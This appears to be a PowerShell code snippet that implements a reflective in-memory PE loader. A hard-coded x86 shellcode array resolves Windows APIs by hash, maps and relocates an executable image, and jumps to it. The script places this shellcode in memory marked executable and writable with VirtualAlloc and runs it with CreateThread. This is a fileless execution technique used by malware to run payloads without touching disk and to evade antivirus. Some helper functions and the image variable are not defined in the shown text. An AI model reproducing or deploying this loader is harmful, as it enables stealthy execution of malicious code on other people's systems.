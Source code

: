 ```powershell
[Byte[]]$sc = 0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x14, 0x53, 0x56, 0x57, 0x64, 0xA1, 0x30, 0x00, 0x00, 0x00, 0x8B, 0x40, 0x0C, 0x8B, 0x40, 0x0C, 0x8B, 0x00, 0x8B, 0x00, 0x8B, 0x40, 0x18, 0x89, 0x45, 0xF8, 0x8B, 0x75, 0xF8, 0xBA, 0xF1, 0xF0, 0xAD, 0x0A, 0x8B, 0xCE, 0xE8, 0xD2, 0x01, 0x00, 0x00, 0xBA, 0x03, 0x1D, 0x3C, 0x0B, 0x89, 0x45, 0xF0, 0x8B, 0xCE, 0xE8, 0xC3, 0x01, 0x00, 0x00, 0xBA, 0xE3, 0xCA, 0xD8, 0x03, 0x89, 0x45, 0xEC, 0x8B, 0xCE, 0xE8, 0xB4, 0x01, 0x00, 0x00, 0x8B, 0xD8, 0x8B, 0x45, 0x08, 0x6A, 0x40, 0x68, 0x00, 0x30, 0x00, 0x00, 0x8B, 0x70, 0x3C, 0x03, 0xF0, 0x89, 0x75, 0xFC, 0xFF, 0x76, 0x50, 0xFF, 0x76, 0x34, 0xFF, 0xD3, 0x8B, 0xF8, 0x85, 0xFF, 0x75, 0x17, 0x6A, 0x40, 0x68, 0x00, 0x30, 0x00, 0x00, 0xFF, 0x76, 0x50, 0x50, 0xFF, 0xD3, 0x8B, 0xF8, 0x85, 0xFF, 0x0F, 0x84, 0x66, 0x01, 0x00, 0x00, 0x8B, 0x56, 0x54, 0x85, 0xD2, 0x74, 0x18, 0x8B, 0x75, 0x08, 0x8B, 0xCF, 0x2B, 0xF7, 0x8A, 0x04, 0x0E, 0x8D, 0x49, 0x01, 0x88, 0x41, 0xFF, 0x83, 0xEA, 0x01, 0x75, 0xF2, 0x8B, 0x75, 0xFC, 0x0F, 0xB7, 0x4E, 0x14, 0x33, 0xC0, 0x03, 0xCE, 0x33, 0xDB, 0x89, 0x4D, 0xF4, 0x66, 0x3B, 0x46, 0x06, 0x73, 0x44, 0x66, 0x0F, 0x1F, 0x84, 0x00, 0x00, 0x00, 0x00, 0x00, 0x0F, 0xB7, 0xC3, 0x8D, 0x04, 0x80, 0x8B, 0x54, 0xC1, 0x28, 0x8B, 0x74, 0xC1, 0x2C, 0x8B, 0x4C, 0xC1, 0x24, 0x03, 0x75, 0x08, 0x03, 0xCF, 0x85, 0xD2, 0x74, 0x13, 0x2B, 0xF1, 0x0F, 0x1F, 0x00, 0x8A, 0x04, 0x0E, 0x8D, 0x49, 0x01, 0x88, 0x41, 0xFF, 0x83, 0xEA, 0x01, 0x75, 0xF2, 0x8B, 0x75, 0xFC, 0x43, 0x8B, 0x4D, 0xF4, 0x66, 0x3B, 0x5E, 0x06, 0x72, 0xC5, 0x8B, 0x86, 0x80, 0x00, 0x00, 0x00, 0x85, 0xC0, 0x74, 0x76, 0x83, 0xBE, 0x84, 0x00, 0x00, 0x00, 0x14, 0x72, 0x6D, 0x83, 0x7C, 0x38, 0x0C, 0x00, 0x8D, 0x1C, 0x38, 0x89, 0x5D, 0x08, 0x74, 0x60, 0x0F, 0x1F, 0x44, 0x00, 0x00, 0x8B, 0x43, 0x0C, 0x03, 0xC7, 0x50, 0xFF, 0x55, 0xF0, 0x8B, 0xD0, 0x89, 0x55, 0xF4, 0x85, 0xD2, 0x74, 0x3A, 0x8B, 0x73, 0x10, 0x8B, 0x0B, 0x85, 0xC9, 0x8D, 0x1C, 0x3E, 0x0F, 0x45, 0xF1, 0x03, 0xF7, 0x8B, 0x06, 0x85, 0xC0, 0x74, 0x22, 0x79, 0x05, 0x0F, 0xB7, 0xC0, 0xEB, 0x05, 0x83, 0xC0, 0x02, 0x03, 0xC7, 0x50, 0x52, 0xFF, 0x55, 0xEC, 0x8B, 0x55, 0xF4, 0x83, 0xC6, 0x04, 0x89, 0x03, 0x83, 0xC3, 0x04, 0x8B, 0x06, 0x85, 0xC0, 0x75, 0xDE, 0x8B, 0x5D, 0x08, 0x83, 0xC3, 0x14, 0x89, 0x5D, 0x08, 0x83, 0x7B, 0x0C, 0x00, 0x75, 0xA8, 0x8B, 0x75, 0xFC, 0x8B, 0xDF, 0x2B, 0x5E, 0x34, 0x83, 0xBE, 0xA4, 0x00, 0x00, 0x00, 0x00, 0x74, 0x52, 0x8B, 0x86, 0xA0, 0x00, 0x00, 0x00, 0x85, 0xC0, 0x74, 0x48, 0x83, 0x3C, 0x38, 0x00, 0x8D, 0x14, 0x38, 0x74, 0x3F, 0x0F, 0x1F, 0x40, 0x00, 0x8B, 0x72, 0x04, 0x8D, 0x42, 0x04, 0x83, 0xEE, 0x08, 0x89, 0x45, 0x08, 0xD1, 0xEE, 0xB9, 0x00, 0x00, 0x00, 0x00, 0x74, 0x1C, 0x0F, 0xB7, 0x44, 0x4A, 0x08, 0x66, 0x85, 0xC0, 0x74, 0x0A, 0x25, 0xFF, 0x0F, 0x00, 0x00, 0x03, 0x02, 0x01, 0x1C, 0x38, 0x41, 0x3B, 0xCE, 0x72, 0xE7, 0x8B, 0x45, 0x08, 0x03, 0x10, 0x83, 0x3A, 0x00, 0x75, 0xC8, 0x8B, 0x75, 0xFC, 0x64, 0xA1, 0x30, 0x00, 0x00, 0x00, 0x89, 0x78, 0x08, 0x8B, 0x46, 0x28, 0x03, 0xC7, 0xFF, 0xD0, 0x5F, 0x5E, 0x5B, 0x8B, 0xE5, 0x5D, 0xC3, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x14, 0x53, 0x8B, 0xD9, 0x89, 0x55, 0xF8, 0x56, 0x57, 0x33, 0xFF, 0x8B, 0x43, 0x3C, 0x8B, 0x44, 0x18, 0x78, 0x03, 0xC3, 0x8B, 0x48, 0x1C, 0x8B, 0x50, 0x24, 0x03, 0xCB, 0x03, 0xD3, 0x89, 0x4D, 0xEC, 0x8B, 0x48, 0x20, 0x03, 0xCB, 0x89, 0x55, 0xF0, 0x8B, 0x50, 0x18, 0x89, 0x4D, 0xF4, 0x89, 0x55, 0xFC, 0x85, 0xD2, 0x74, 0x4B, 0x0F, 0x1F, 0x44, 0x00, 0x00, 0x8B, 0x34, 0xB9, 0x03, 0xF3, 0x74, 0x3A, 0x8A, 0x0E, 0x33, 0xC0, 0x84, 0xC9, 0x74, 0x2A, 0x90, 0xC1, 0xE0, 0x04, 0x8D, 0x76, 0x01, 0x0F, 0xBE, 0xC9, 0x03, 0xC1, 0x8B, 0xD0, 0x81, 0xE2, 0x00, 0x00, 0x00, 0xF0, 0x74, 0x07, 0x8B, 0xCA, 0xC1, 0xE9, 0x18, 0x33, 0xC1, 0x8A, 0x0E, 0xF7, 0xD2, 0x23, 0xC2, 0x84, 0xC9, 0x75, 0xDA, 0x8B, 0x55, 0xFC, 0x3B, 0x45, 0xF8, 0x74, 0x11, 0x8B, 0x4D, 0xF4, 0x47, 0x3B, 0xFA, 0x72, 0xBA, 0x5F, 0x5E, 0x33, 0xC0, 0x5B, 0x8B, 0xE5, 0x5D, 0xC3, 0x8B, 0x45, 0xF0, 0x8B, 0x4D, 0xEC, 0x0F, 0xB7, 0x04, 0x78, 0x5F, 0x5E, 0x8B, 0x04, 0x81, 0x03, 0xC3, 0x5B, 0x8B, 0xE5, 0x5D, 0xC3, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC

$VAAddr = GPA kernel32.dll VirtualAlloc
$VADeleg = GDT @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VA = $marshal::GetDelegateForFunctionPointer($VAAddr, $VADeleg)
$CTAddr = GPA kernel32.dll CreateThread
$CTDeleg = GDT @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
$CT = $marshal::GetDelegateForFunctionPointer($CTAddr, $CTDeleg)
$WFSOAddr = GPA kernel32.dll WaitForSingleObject
$WFSODeleg = GDT @([IntPtr], [Int32]) ([Int])
$WFSO = $marshal::GetDelegateForFunctionPointer($WFSOAddr, $WFSODeleg)

$x=$VA.Invoke(0,$sc.Length, 0x3000, 0x40)
$marshal::Copy($sc, 0, $x, $sc.Length);

$imageBuf = $marshal::AllocHGlobal($image.Length)
$marshal::Copy($image, 0, $imageBuf, $image.Length);

$thread = $CT.Invoke([int]$false, [int]$false, $x, $imageBuf, 0, 0);
$WFSO.Invoke($thread, -1);

```